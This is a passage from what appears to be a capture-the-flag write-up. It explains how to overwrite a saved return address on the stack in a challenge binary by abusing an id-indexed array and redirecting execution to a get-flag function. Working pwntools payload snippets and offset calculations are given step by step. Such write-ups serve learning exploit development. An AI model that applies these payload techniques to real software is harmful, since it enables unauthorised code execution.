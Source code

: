 And the program will copy name of first hero, 16 bytes of `0` to the second hero and overwrite the id of second hero with `0`, which means we can change the id of second hero to the number we want and to make `fame[hero[1].id]` point to the desired address, in this case is saved rip. We will change a bit in name of first hero as follows:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(0xdeadbeef) + b'0'*0xc
p.sendafter(b'hero?\n', payload)
p.sendafter(b'hero?\n', b'1'*0x10)
```

Let's see what number we should put here. The stack address contains saved rip is `0x007fffffffde18` and stack address of fame is `0x007fffffffdcf0`. Because each fame is 16 byte so we cannot make `fame[hero[1].id]` point to `0x007fffffffde18` directly but we can make it point to `0x007fffffffde10` and change data of both `0x007fffffffde10` and `0x007fffffffde18`. A simple calculation can be done as follows:

```python
>>> (0x007fffffffde10 - 0x007fffffffdcf0)/0x10
18.0
```

So we will want id of second hero is `18`. The update payload will be as following:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(18) + b'0'*0xc
p.sendafter(b'hero?\n', payload)
p.sendafter(b'hero?\n', b'1'*0x10)
```

But one problem here is that it overwrite not only the id of hero but also 12 bytes name of the second hero, which will be use to overwrite the saved rbp and saved rip. So we need to set the last 12 bytes of the name of the first hero to the address we want so that when the name of first hero overwrite first 12 byte name of second hero, it create a complete address of get flag:

![check-second-hero.png](images/check-second-hero.png)

The 2 highlighted addresses will be overwriten and the next 4 bytes of those 2 addresses are the last 4-byte name of second hero. When it copy name of second hero, it will copy first 8 byte of that name to the saved rbp and last 8 bytes to the saved rip. Therefore, in payload for first hero, we will input 8 byte null for saved rbp and first 4 bytes of address of get flag:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(18)
payload += p64(0)                           # Saved rbp
payload += p64(exe.address + 0x1d6d)[:4]    # Saved rip
p.sendafter(b'hero?\n', payload)
p.sendafter(b'hero?\n', b'1'*0x10)
```
